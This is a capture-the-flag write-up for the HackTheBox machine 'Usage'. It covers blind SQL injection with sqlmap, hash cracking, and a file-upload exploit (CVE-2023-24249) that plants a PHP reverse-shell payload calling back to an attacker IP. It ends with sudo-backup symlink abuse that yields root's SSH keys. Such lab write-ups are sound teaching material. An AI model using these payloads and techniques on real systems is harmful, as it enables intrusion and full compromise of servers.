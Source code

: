 # HackTheBox - Usage
---

## Initial Enumeration

After starting the machine, we are provided with an IP of **10.10.11.18**.

An initial scan `(nmap -p- -Pn --disable-arp-ping --min-rate 300 --stats-every=5s 10.10.11.18)` reveals open ports 22 and 80. A follow-up scan to further enumerate `(sudo nmap -O -sV -p 22,80 10.10.11.18)` provides the following details:

![](img/Usage1.png)

Further research provides no known vulnerabilities for either of these services, nor kernel exploits for the OS.

Attempting to view the web service gets an error, but provides us with the domain of **usage.htb** – adding this to our **/etc/hosts** file enables us to view the following on the web service:

![](img/Usage2.png)

Further fingerprinting on the webservice using _whatweb_ as well as looking through the page source provides the following information:

![](img/Usage3.png)

Unable to find any known vulnerabilities for this technology stack, we take a look at the functionality of the rest of the webpage. Initially we check each field for SQLi in each field in the login fields using a variety of payloads ([very useful set of payloads found here](https://github.com/payloadbox/sql-injection-payload-list)), and find nothing.

Checking for SQLi under the password reset link, however, nets us the following:

![](img/Usage4.png)

Here, we have evidence that the email field in the POST request to **/forget-password** is vulnerable to a blind, time-based SQLi attack. This will prove to be considerably harmful to data confidentiality.

---
## Initial Compromise

We use our browser proxy to save an intercepted POST request, and use it to run an attack using sqlmap `(sqlmap -r ForgotPasswordPOST -p email –level=5)`. This discovers that a time-based blind injection with an eight-clause UNION query is able to enumerate database information. Doing so, we are able to enumerate the entire database. Of particular note is the following, from the **usage_blog.admin_users** table:

![](img/Usage5.png)

We can crack this hash with _johntheripper_ and the _rockyou.txt_ wordlist, getting us the password **whatever1**.

We would not have been able to crack this without significant time and compute resources had a better password policy been enforced.

This allows us to login to the admin dashboard using the **admin** username. From that dashboard, we are presented with a good deal of new information about the technology stack used in this website:

![](img/Usage6.png)

After some investigation, we come across [CVE-2023-24249](https://flyd.uk/post/cve-2023-24249/) related to the **encore/laravel-admin** package, indicating that we can arbitrarily upload php scripts to the server to attain arbitrary code execution.

We create the following script to give us a remote shell:
```html
<html>
	<body>
		<?PHP system('php -r \'$sock=fsockopen(“10.10.14.11”,1337);exec(“sh <&3 >&3 2>&3”);\''); ?>
	</body>
</html>
```

We save this script with a .jpg extension and then attempt to upload it via the admin area's user avatar upload interface. Capturing this request, we permit it to run, then replay it, adding a “.php” to the end of the file.

![](img/Usage7.png)

Refreshing the upload interface, we now can see that our script has been uploaded.

![](img/Usage8.png)


We now start a netcat listener on our machine `(nc -lvnp 1337)`. By clicking the download link (or navigating to **/uploads/images/script.jpg.php**), we execute our script and can see that we have gained a reverse shell.

![](img/Usage9.png)

Now that we have remote access with the user **dash**, we stabilize our access and gain persistence by adding our public ssh key to the user's **/home/user/.sh/authorized_keys** file. We can now log in to the server as dash with full terminal functionality whenever we like.

---
## Privilege Escalation

Further enumeration shows that there is another user on this machine, **xander**. By sifting through log and configuration files, we find a number of passwords written in plaintext. It is with the password **3nc0d3d_pa$$w0rd** found in **/home/dash/.monitrc** that we are able to log in as xander.


Doing a little bit of investigation into the xander user reveals that, unlike dash, xander has limited access to sudo:

![](img/Usage10.png)

Naturally, anything that we can execute as a superuser merits further investigation. Running the command (without sudo rights, to limit possible damage caused by executing an unknown binary) nets us the following:

![](img/Usage11.png)

We have selected to use the **Project Backup** option as there is nothing in the MySQL database that we do not already have access to, nor do we want to necessarily reset the admin password just yet and possibly cause undo interference with the normal administration of the machine.

The backup option does seem to attempt to create a zip file in **/var/backups**. If running it requires superuser permissions, it is possible some interesting files may end up in that backup. We run the backup again, this time with sudo functionality. We go to the backup, unzip it, and investigate. We do not have permissions to write in the folder where it was made, so we will copy it to xander's home directory and unzip there. When unzipped, we find backups of the contents of **/var/www/html/**. We already had full read/write access to these files as dash. However, since this backup was made with superuser functionality, this gives us an opportunity.

As dash, we go to the **/var/www/html/** directory and, in it, create a symlink to **/root/**. Then, logged back into xander, we run the project backup once again. This time, when unzipped, the project backup contains the contents of the **/root/** folder, complete with .ssh folder, which contains the root user's public and private keys.

![](img/Usage12.png)

From here, we can use the keys to log in to root via ssh from out attacking machine, providing complete control over the server.

![](img/Usage13.png)